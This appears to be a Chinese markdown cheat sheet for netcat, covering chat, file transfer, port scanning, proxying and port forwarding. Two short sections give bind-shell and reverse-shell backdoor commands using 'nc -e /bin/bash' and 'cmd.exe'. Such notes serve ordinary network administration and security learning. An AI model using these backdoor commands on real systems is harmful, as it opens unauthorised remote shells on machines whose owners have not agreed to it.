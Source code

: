 # nc使用

Chat
```
# 发送端， 这里的 -l 是指过滤端口
nc -l 3333
# 接受端
nc 127.0.0.1 3333
```

传送文件
```
# 发送端
`cat backup.iso | nc -l 3333`
# 接收端
`nc 192.168.0.1 3333 > backup.iso`
```


显示传送进度，可以使用管道监控,pv命令
```
`cat backup.iso | pv -b | nc -l 3333`
`nc 192.168.0.1 3333 | pv -b > backup.iso`
```


本地打包文件，传送到远端
```
`tar -czf - /etc/ | nc -l 3333`
`nc 192.168.0.1 3333 | pv -b > mybackup.tar.gz`
```

端口扫描
```
扫描端口，并返回相关信息
nc -z 192.168.0.1 80-90
```

如何正确的加密聊天
```
nc -l 3333
ssh  yantze@192.168.0.1 sleep 1; nc 127.0.0.1 3333
```

如何正确的创建后门
```
nc -l 3333 -e /bin/bash
nc -l 3333 -e cmd.exe
nc 127.0.0.1 3333
```

如何逆向后门
```
nc -l 3333
nc 127.0.0.1 3333 -e /bin/bash
```

指定代理方式
> 以 http 的方式把 host.example.com:42 映射到 192.168.0.2:8080
```
nc -x192.168.0.2:8080 -Xconnect host.example.com 42
```

SSH over Socks
```
ssh -o ProxyCommand='/usr/bin/nc -x 127.0.0.1:1080 %h %p' -i "xxx.pem" user@host
```

nc over pipe ( port forwarding )
```
mkfifo a
mkfifo b
nc 127.0.0.1 8000 <b >a &
nc -l 8001 <a >b &
```

ssh 版本端口转发(远程转发，访问 host:8080 就相当于访问 localhost:80)
```
ssh -R 0.0.0.0:8080:localhost:80 user@host
# -R remote 的缩写
# -R [远程主机:]远程主机端口:登录主机:登录主机端口
# 0.0.0.0:8080 部分就是在 user@host 中建立 LISTEN 0.0.0.0:8080
```

## See Also
- [socat](./socat.md)
- [ssh](./ssh.md)

## Ref
- https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf
- http://www.g-loaded.eu/2006/11/06/netcat-a-couple-of-useful-examples/
- https://dragula.viettug.org/blogs/263.html
